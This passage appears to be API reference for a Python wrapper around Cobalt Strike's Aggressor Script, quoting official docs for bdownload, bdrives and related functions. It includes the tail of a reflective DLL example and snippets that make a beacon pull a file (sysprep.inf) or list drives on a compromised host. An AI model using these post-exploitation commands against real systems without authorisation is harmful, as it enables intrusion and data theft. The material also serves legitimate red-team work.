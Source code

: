                 /* flush STDOUT */
                fflush(stdout);

                /* we're done, so let's exit */
                ExitProcess(0);
                break;
            case DLL_PROCESS_DETACH:
            case DLL_THREAD_ATTACH:
            case DLL_THREAD_DETACH:
                break;
        }
        return bReturnValue;
    }

    Example (Aggressor Script)
    alias hello {
        bdllspawn($1, script_resource("reflective_dll.dll"), $2, "test dll", 5000, false);
    }


## bdownload
```python
bdownload(*args, silent=False, fork=None, sync=True)
```
"
Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Ask a Beacon to download a file
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    $2 - the file to request
    Example
    bdownload($1, "c:\\sysprep.inf");


## bdrives
```python
bdrives(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Ask Beacon to list the drives on the compromised system
    Arguments
    $1 - the id for the beacon. This may be an array or a single ID.
    Example
    item "&Drives" {
        binput($1, "drives");
        bdrives($1);
    }


## beacon_command_describe
```python
beacon_command_describe(*args, fork=None, sync=True)
```
